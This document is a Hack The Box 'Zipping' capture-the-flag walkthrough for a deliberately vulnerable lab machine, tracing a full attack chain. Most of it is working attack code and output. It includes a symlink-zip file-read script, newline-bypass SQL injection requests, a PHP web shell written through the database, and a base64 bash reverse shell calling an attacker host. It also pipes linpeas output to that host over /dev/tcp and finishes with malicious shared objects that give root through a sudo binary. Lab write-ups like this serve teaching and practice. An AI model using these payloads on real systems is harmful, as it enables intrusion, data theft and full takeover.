


# HTB: Zipping

We're given an ipv4 address $TARGET. Let's ask nmap for a lay of the land:

```BASH
$ nmap -oA recon/nmap/quick $TARGET
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-06 20:15 CEST
Nmap scan report for 10.10.11.229
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.25 seconds
```

Looks like we have a website and ssh running. Let's run a full nmap scan in the background in case the quick one does not convey the whole picture.

```BASH
$ sudo nmap -sS -sU -sC -sV -oA recon/nmap/full -p- -v3 --min-rate 1000 $TARGET
```

Since we found a web server on port 80 let's also run feroxbuster:

```BASH
$ feroxbuster -u http://$TARGET -w /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt -o recon/feroxMedWords
$ echo "Ignoring template assets"; cat feroxMedWords | grep -v assets
Ignoring template assets
301      GET        9l       28w      314c http://10.10.11.229/uploads => http://10.10.11.229/uploads/
301      GET        9l       28w      311c http://10.10.11.229/shop => http://10.10.11.229/shop/
200      GET      317l     1354w    16738c http://10.10.11.229/
200      GET      113l      380w     5322c http://10.10.11.229/upload.php
200      GET       68l      149w     2615c http://10.10.11.229/shop/index.php
200      GET       68l      149w     2615c http://10.10.11.229/shop/
```

Opening up the website in firefox we're greeted with a watch store page.


The product and cart pages have some interesting parameters in the URL. Let's run sqlmap with the crawl option and test for IDOR vulnerability with ffuf on the id parameter (nothing interesting is found).


```BASH
http://10.10.11.229/shop/index.php?page=cart
http://10.10.11.229/shop/index.php?page=product&id=2
```

```BASH
$ sqlmap -u http://$TARGET --crawl 3 --batch
```

The upload page states that it allows us to upload zip files containing a single pdf file. Enumerating the upload filtering a bit it we see that any file can be uploaded but only zips are processed. There's no content type header filtering. If there's more than one file in the zip an error is thrown. The pdf file filtering is only based on the file extension.


Trying to bypass the file extension filtering with a nullbyte does not work.

Side note - This worked when the box was first released, but was patched shortly after. Though as i later learned, it turns out that the patch can also be bypassed. To practice, we can host the old upload.php locally and practice the nullbyte bypass.

Revert the upload.php file using a diff:

```bash
46d45
< 		$tmpDir = sys_get_temp_dir();
56,61c55
<                     $uploadPath = $tmpDir.'/'.$uploadDir;
<                     echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
<                     if (file_exists($uploadPath.$fileName)) {
<                       mkdir($uploadDir);
<                       rename($uploadPath.$fileName, $uploadDir.$fileName);
<                     }
---
>                     echo exec('7z e '.$zipFile. ' -o' .$uploadDir. '>/dev/null');
70d63
<
```

now we can host the site locally with php:

```bash
$ php -S 127.0.0.1:8888
```

Then we need to make the payload zip:

```bash
$ echo -n "<?php phpinfo();?>" > "s.phpA.pdf"
$ zip p.zip s.phpA.pdf
```

Intercept the upload POST request and change 'A' in the last occurrence of the filename to a nullbyte using the hex view in burp:


The zip uploads successfully:


the link doesn't work but removing the pdf extension allows us to run php code:


It's also possible to exploit this on the newer version. Going to the provided link even after removing the pdf will now not work as it will fail the file exists check because the extension was dropped:

```php
// Create an md5 hash of the zip file
$fileHash = md5_file($zipFile);
// Create a new directory for the extracted files
$uploadDir = "uploads/$fileHash/";
$tmpDir = sys_get_temp_dir();
// Extract the files from the zip
$zip = new ZipArchive;
if ($zip->open($zipFile) === true) {
  if ($zip->count() > 1) {
  echo '<p>Please include a single PDF file in the archive.<p>';
  } else {
  // Get the name of the compressed file
  $fileName = $zip->getNameIndex(0);
  if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
    $uploadPath = $tmpDir.'/'.$uploadDir;
    echo exec('7z e '.$zipFile. ' -o' .$uploadPath. '>/dev/null');
    if (file_exists($uploadPath.$fileName)) {
      mkdir($uploadDir);
      rename($uploadPath.$fileName, $uploadDir.$fileName);
    }
    echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
  } else {
    echo "<p>The unzipped file must have  a .pdf extension.</p>";
  }
 }
}
```

The file was still created in `$uploadPath` though, and on linux sys_get_temp_dir() usually resolves to `/tmp`. Problem is that `/tmp` is not acessible from the webroot.

So what else can we do? The check seems to be only based on the file extension, given an lfi, we could upload a php file with the pdf extension or use the nullbyte trick to put a file in `/tmp` and run it but we haven't found an lfi yet. Another interesting thing to upload would be a symlink:


```BASH
ls -s ../../../../../../../../../../../../../../../etc/passwd e.pdf
zip e.zip --symlinks e.pdf
```


Firefox still tries to interpret it as a pdf but viewing the response in burp we see a file!


Let's write a quick script to make looking around easier:

```BASH
#!/bin/bash
#lfi.sh

localfname=$(echo -n $1 | sed 's/[^a-zA-Z0-9]/_/g')

ln -s "../../../../../../../../../../../../../../../${1}" "e.pdf"

zip "e.zip" --symlinks "e.pdf"

hash=$(curl -sS -X POST -F "zipFile=@e.zip;type=application/zip" -F "submit=" -x "http://127.0.0.1:8080" "http://${TARGET}/upload.php" | sed -n 's/.*uploads\/\([^\/]*\)\/.*/\1/p')

echo "http://${TARGET}/uploads/${hash}/e.pdf"

curl -o $localfname "http://${TARGET}/uploads/${hash}/e.pdf"

rm e.zip e.pdf
```

```php
/var/www/html/shop/index.php

<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

`$_GET['page']` is passed into an include statement if the file exists. This should allow for an LFI.


Seems to work. Problem is without we don't have a way to upload any files with the .php extension currently. Attempting to bypass the string concat by appending a null byte to the page parameter and by path truncation doesn't work either. The service is probably using an up to date version of php.

```php
/var/www/html/shop/home.php

<?php
// Get the 4 most recently added products
$stmt = $pdo->prepare('SELECT * FROM products ORDER BY date_added DESC LIMIT 4');
$stmt->execute();
$recently_added_products = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>
 ... snip ...
```

home.php uses a prepared statement without any user input. Doesn't look like something that can be messed with.

```php
/var/www/html/shop/functions.php

<?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
    	return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
    } catch (PDOException $exception) {
    	// If there is an error with the connection, stop the script and display the error.
    	exit('Failed to connect to database!');
    }
}
 ... snip ...
```

Some creds here! Since there's an ssh service listening let's start hydra in the background (Doesn't end up finding anything).

```BASH
$ cat etc_passwd | grep sh$ | awk -F ':' '{print $1}' | tee loot/leakedUsers
root
rektsu

$ cat loot/leakedPass /opt/SecLists/Passwords/darkweb2017-top10000.txt  > /tmp/wordlist
$ hydra -L loot/leakedUsers -P /tmp/wordlist $TARGET ssh
```

```php
/var/www/data/html/shop/product.php

<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

 ... snip ...
```

This looks interesting. The id field after some filtering goes into a prepared query but just as the comment states it does not prevent sql injection.

```php
/var/www/data/html/cart.php

<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}

 ... snip ...
```

Similar situation in the cart.php file. Bit of googling suggests preg_match can be bypassed using new lines. After playing around with the regex in [https://regex101.com/](https://regex101.com/) it seems the input has to end in a numeric value but adding a new line at the beginning and after the payload seems to not be detected. Let's try it in burpsuite.




```
GET /shop/index.php?page=product&id=%0d%0a%27%20%6f%72%20%31%3d%31%3b%0d%0a%2d%2d%32 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


Seems to work! Let's export a request with an injection marker for sqlmap.


```
GET /shop/index.php?page=product&id=%0d%0a%27*%3b%0d%0a%2d%2d%32 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php?
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

```
$ sqlmap -r productGet.req --level 5 --risk 3 --dump

 ... snip ...

sqlmap identified the following injection point(s) with a total of 692 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
' OR NOT 9568=9568;
--2

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
';SELECT SLEEP(5);
--2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
' AND (SELECT 9276 FROM (SELECT(SLEEP(5)))bDCZ);
--2
---

 ... snip ...
```

Nothing interesting in the db. Since we know the web app uses the root user let's check if we are DBA and try to get a shell using sqlmap.

```
$ sqlmap -r request.req --level 5 --risk 3 --is-dba --batch

 ... snip ..

URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 570 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
' OR NOT 5901=5901;
--2

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
';SELECT SLEEP(5);
--2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.11.229:80/shop/index.php?page=product&id=
' AND (SELECT 2458 FROM (SELECT(SLEEP(5)))dSTo);
--2
---
[09:29:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.54, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:29:40] [INFO] testing if current user is DBA
[09:29:40] [INFO] fetching current user
[09:29:40] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:29:40] [INFO] retrieved: root@localhost
current user is DBA: True
```

```
$ sqlmap -r productGet.req --level 5 --risk 3 --os-pwn
```

Doesn't seem to work. Os shell?

```
$ sqlmap -r productGet.req --level 5 --risk 3 --os-shell
```

Nope. Though this does give us a hint.

```text
[04:11:00] [ERROR] there has been a problem uploading the shared library, it looks like the binary file has not been written on the database underlying file system
do you want to proceed anyway? Beware that the operating system takeover will fail [y/N]
[04:11:02] [INFO] falling back to web backdoor method...
```

Since we are DBA we should be able to upload a php file using the db and run it using the lfi we found earlier.

The db appears to be mariadb, google mentions there being a variable called secure_file_priv to which, if set and given FILE permissions, files can be written. Let's use sqlmap to get a sql shell and check if that variable is set.

```
$ sqlmap -r productGet.req --level 5 --risk 3 --sql-shell
sql-shell> SELECT @@global.secure_file_priv;

 ... snip ...

 SELECT @@global.secure_file_priv: ' '
```

Hmm not set. So the DB should be able to write to any directory the mysql user can. Thing is we need to also be able to read the file from php. Luckily /var/lib/mysql seems to be world readable by default (tested in docker with the ubuntu version used by the box)

```
drwxr-xr-x 1 mysql mysql  250 Oct  6 21:48 .
```

We can use sqlmap to upload a shell:

```php
//sh.php
<?php system($_GET['cmd']);?>
```

(You may need to play around with productGet.req to get sqlmap to work)

```BASH
$ sqlmap -r productGet.req --level 5 --risk 3 --file-write="sh.php" --file-dest="/var/lib/mysql/s.php"
```

or do so manually from burpsuite (remember to url encode):

```
GET /shop/index.php?page=product&id=
'; select '<?php system($_GET[\'cmd\']);?>' into outfile '/var/lib/mysql/s.php';
--2 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

and we get a command execution!


```
GET /shop/index.php?page=/var/lib/mysql/s&cmd=ls HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php?
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

```

Let's get a reverse shell! https://www.revshells.com/


I'll base64 encode adding spaces where needed to remove non alphanumeric characters and gamble on the target having the base64 utility installed to hopefully increase the chance of the payload working.

```bash
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001 0>&1 " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxIDA+JjEg
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1 " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYxIA==
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1  " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYxICA=
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.207/9001  0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYx
```

Start the listener ([found on this blog post](https://medium.com/@Thigh_GoD/how-to-automatically-upgrade-a-dumb-reverse-shell-6a4cb5c44997))

```bash
stty raw -echo; stty size && rcat l -ie "script -qc /bin/bash /dev/null" 9001 && reset
```

and fire the payload

```
GET /shop/index.php?page=/var/lib/mysql/s&cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIwNy85MDAxICAwPiYx+|+base64+-d+|+bash HTTP/1.1
Host: 10.10.11.2292
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

and we get a nice shell!

```bash
rektsu@zipping:/var/www/html/shop$
```

Another way of getting to a shell as rektsu that i've learned after solving the box is to use the phar php wrapper to execute a file out of a zip. Since the application only checks for the extesion of the file contained in the main zip we can create a zip contaning another zip archive called e.pdf which contains the actual file with php code.

```bash
$ echo -n "<?php phpinfo();?>" > "sh.php"
$ zip e.zip sh.php
  adding: sh.php (stored 0%)
$ mv e.zip e.pdf
$ zip pwn.zip e.pdf
  adding: e.pdf (deflated 37%)
```

now after uploading pwn.zip we can use a phar wrapper to execute the php payload like so (note the LFI appends `.php` to the included file):

```bash
curl 'http://127.0.0.1:8000/shop/index.php?page=phar://../uploads/abc3364b5e4232c09742daa9099baefb/e.pdf/sh'
```



As you can see this also works with php8.2.18

Before manual enumeration let's run linpeas in the background.

Host linpeas:

```bash
$ py -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

start a listener to capture linpeas output:

```bash
nc -lp 9002 | tee linpeaoutput
```

and fire off linpeas

```bash
curl 10.10.14.207:8000/peas | bash &> /dev/tcp/10.10.14.207/9002 &
```

Running `sudo -l` and off the bat we get something interesting:

```bash
rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

This looks like a custom binary, let's download it to inspect further.

Star the upload server:

```bash
py -m uploadserver
```

and on the box:

```bash
rektsu@zipping:/var/www/html/shop$ which python3
/usr/bin/python3
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/usr/bin/stock","rb")})'
```


After locating the decompilation of the main function we can see that the executable will first prompt the user for a password using fgets which will read 0x1e (or 30 in decimal) bytes from stdin. The buffer into which the input will be written to seems to be 44 bytes so no buffer overflow here. The passed in value will be then passed into the checkAuth function which will check the input against "St0ckM4nager". If check auth returns something other than 0 we get to this odd looking section with a whole bunch of constants that first go through the XOR function and then go into dlopen. Dlopen is a linux standard library function that allows us to dynamically load shared objects which are basically the linux equivalent of windows DLLs. If we can somehow get the binary to load our malicious shared object we will be able to inherit permissions (root) and execute code.


There are a few ways to get the path that is passed in:

### Static

Let's take a closer look at the decompilation of the XOR function and try to clean it up a bit.


Since the XOR function is called only once during the program we can treat param_2 and param_4 as simple constants:


Let's also give the other variables slightly more meaningful names:


Now we can see that the function simply loops a set amount of times and performs an xor on each byte of input. The variable c is reset when it hits zero meaning param_3 will be repeated if need be to match the length of input. One problem remains. If the loop will iterate over 34 bytes of input but a long is only 8 bytes the program will start messing with other things on the stack. Namely those weird variables right above the function call. Since dlopen expects a null terminated array or char as input could those be a part of a char array? let's change the type to char[34] and see if the decompilation makes more sense.


Definitely more verbose. Converting the param_3 variable into a char[8] array also reveals that the parameter is a string. Things are starting to make more sense now.
Changing variable types in the XOR function makes it much easier to read.


We should be able to now simply copy the cleaned up decompiled code and run it:

```c
//pathRev.c
#include <stdio.h>

void XOR(char *filename,char *key)
{
  int c = 0;
  for (int i = 0; i < 34; i = i + 1) {
    if (c == 8 + -1) {
      c = 0;
    }
    filename[i] = filename[i] ^ key[c];
    c = c + 1;
  }
  return;
}

int main(void){
    char input[35];
    input[0] = 'g';
    input[1] = '\t';
    input[2] = '\x04';
    input[3] = '\f';
    input[4] = '\f';
    input[5] = 'U';
    input[6] = '\x17';
    input[7] = '-';
    input[8] = '\n';
    input[9] = '\x1f';
    input[10] = '\x12';
    input[11] = '\x1c';
    input[12] = 'U';
    input[13] = 'K';
    input[14] = '+';
    input[15] = '\x0e';
    input[16] = '\x05';
    input[17] = '\a';
    input[18] = '\0';
    input[19] = '\x1d';
    input[20] = 'J';
    input[21] = '$';
    input[22] = '\b';
    input[23] = '\t';
    input[24] = '\x02';
    input[25] = '\x06';
    input[26] = '\x0f';
    input[27] = '\v';
    input[28] = '<';
    input[29] = '\x04';
    input[30] = '\x19';
    input[31] = 'O';
    input[32] = '\x1a';
    input[33] = '\x15';
    input[34] = '\0';

    char key[8];
    key[0] = 'H';
    key[1] = 'a';
    key[2] = 'k';
    key[3] = 'a';
    key[4] = 'i';
    key[5] = 'z';
    key[6] = 'e';
    key[7] = '\0';

    XOR(input, key);

    printf("%s", input);
    return 0;
}
```

```bash
$ gcc -o pathRev pathRev.c
$ ./pathRev
/home/rektsu/.config/libcounter.so
```

### Dynamic

We can simply attach gdb to the binary and read the value as it's passed into dlopen. The only issue is that i have a different version of glibc installed on my system:

```bash
./stock: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./stock)
	linux-vdso.so.1 (0x00007ffedf9f6000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb773d9000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fcb775d1000)
```

Not to worry though we can just get the libc and ld shared objects from the target and with the help of [pwninit](https://github.com/io12/pwninit) patch the binary:

Start python upload server:

```bash
$ py -m uploadserver
```

Run $TARGET run:

```bash
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/lib64/ld-linux-x86-64.so.2","rb")})'
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/lib/x86_64-linux-gnu/libc.so.6","rb")})'
```

Put the stock binary and the downloaded libc files into one directory and run `pwninit`. Now we can run `stock_patched` and attach gdb to it:

```bash
$ gdb stock_patched
```


If your gdb doesn't look as fancy as mine install [GEF](https://github.com/hugsy/gef). Let's break on the dlopen call:

```
b dlopen
```

then run and provide the password:


And we can instantly see that path we were looking for pointed at by $rdi and $rax (in linux x64 the convention is to pass the first argument in $rdi)


## Strace

Running strace to log all the syscalls the binary is making also works:


Now all that is left is to write a malicious shared object, put in at that path and run the program as sudo to get code exec as root! Again we have a few options here:

## msfvenom

Probably the easiest way is to use msfvenom. There are various payloads available but a simple exec will save us starting another listener or other handler.

```bash
$ msfvenom -p linux/x64/exec -f elf-so -o libcounter.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 21 bytes
Final size of elf-so file: 423 bytes
Saved as: libcounter.so
```


The above in my case will call the sys_execve syscall and run "/bin/sh" though no guarantee is given that this will always be the case. We can change the CMD option to have some other command ran.

```bash
$ msfvenom -p linux/x64/exec -f elf-so CMD="id" -o libcounter.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 39 bytes
Final size of elf-so file: 441 bytes
Saved as: libcounter.so
```


This will effectively run `/bin/sh -c 'id'`.

## Compile on target

The execve function is a wrapper around the execve linux syscall meaning it requires libc. Compiling locally and moving the compiled binary into the target may not work for the same reasons we had to patch the stock binary to make it work. We could try statically compiling but that could run into libc version mismatch issues.

```c
//e.c
#include <unistd.h>
void __attribute__((constructor)) load_function() {
  execve("/bin/bash", NULL, NULL);
}
```

```bash
$ gcc -shared -o e.so e.c
$ cp e.so /home/rektsu/.config/libcounter.so
$ sudo /usr/bin/stock
```

Pass in the password and we're root!


### Assembly to the rescue

Since the execve function is just a wrapper for the execve syscall there's nothing stopping us from manually calling it and not depending on libc:

```c
//e2.c
//0x0068732f6e69622f is /bin/sh with a nullbyte
void __attribute__((constructor)) load_function() {
  asm(
      "mov \$0x0068732f6e69622f, %rax;"
      "push %rax;"
      "mov %rsp, %rdi;"
      "mov \$0x3b, %rax;"
      "syscall;"
  );
}
```

compile:

```bash
gcc -shared -nostdlib -fPIC -s -Os -o e2.so e2.c
```

Then simply drop it in the location the stock binary expects it, run the binary, pass in the password and again we get the root shell!
